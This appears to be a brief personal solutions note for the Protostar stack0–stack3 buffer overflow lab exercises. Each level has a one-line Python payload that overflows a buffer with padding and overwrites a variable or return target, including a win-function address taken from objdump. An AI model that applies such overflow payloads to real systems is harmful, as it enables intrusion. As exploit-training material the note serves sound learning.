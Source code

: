 

# Protostar

## stack0
https://exploit.education/protostar/stack-zero/

\`python -c "print('a'\*65)"\` | ./stack0  

## Stack1
./stack1 \`python -c "print('a'\*64+'dcba')"\`

## Stack2
export GREENIE= \`python -c "print('a'\*64+'\\x0a\\x0d\\x0a\\x0d')"\`
cause the stack works backwords
./stack2

## Stack3
objdump -t stack3
check the address of the "win" function and use it
\`python -c "print('a'\*64+'\\x24\\x84\\x04\\x08')"\`